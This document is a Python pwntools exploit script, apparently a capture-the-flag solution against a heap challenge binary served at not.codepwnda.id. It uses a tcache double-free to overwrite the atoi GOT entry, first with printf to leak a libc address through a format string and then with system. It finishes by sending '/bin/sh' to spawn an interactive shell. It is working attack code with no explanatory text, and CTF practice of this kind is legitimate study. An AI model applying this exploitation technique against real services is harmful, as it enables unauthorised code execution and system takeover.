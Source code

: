 ```py
#!/usr/bin/env python
from pwn import *

context.terminal = ['tmux', 'split-window', '-h']
context.log_level = ['debug', 'info', 'warn'][1]

BINARY = './release/chall'
HOST = "not.codepwnda.id"
PORT = 30001

r = tube; elf = ELF; libc = ELF

def create(size, msg, edited=False):
    r.sendafter('> ', '1' if not edited else ' \x00')
    r.sendafter(': ', str(size) if not edited else '%{}c\x00'.format(size))
    r.sendafter(': ', str(msg))

def delete(edited=False):
    r.sendafter('> ', '2' if not edited else '  \x00')

def exploit(REMOTE):
    create(0x38, '/bin/sh')
    create(0x18, 'B' * 0x18)
    delete()
    delete()
    create(0x18, p64(elf.got['atoi']))
    create(0x18, p8(0x00))
    create(0x18, p64(elf.plt['printf']))

    payload = '%19$p'
    r.sendlineafter('> ', payload)
    libc.address = (int(r.recvline(False), 16) - libc.sym['__libc_start_main']) & 0xFFFFFFFFFFFFF000
    info('%x' % libc.address)

    create(0x28, 'C' * 0x28, 1)
    delete(1)
    delete(1)
    create(0x28, p64(elf.got['atoi']), 1)
    create(0x28, p64(0x00), 1)
    create(0x28, p64(libc.sym['system']), 1)

    r.sendafter('> ', '/bin/sh\x00')

if __name__ == '__main__':
    REMOTE = os.getenv('REMOTE')
    elf = ELF(BINARY, checksec=False)


    if REMOTE:
        libc = ELF('libc-2.27.so', checksec=False)
        r = remote(HOST, PORT)
    else:
        libc = ELF('/opt/glibc/x64/2.26/lib/libc.so.6', checksec=False)
        r = elf.process(aslr=True)

    exploit(REMOTE)
    r.interactive()
```
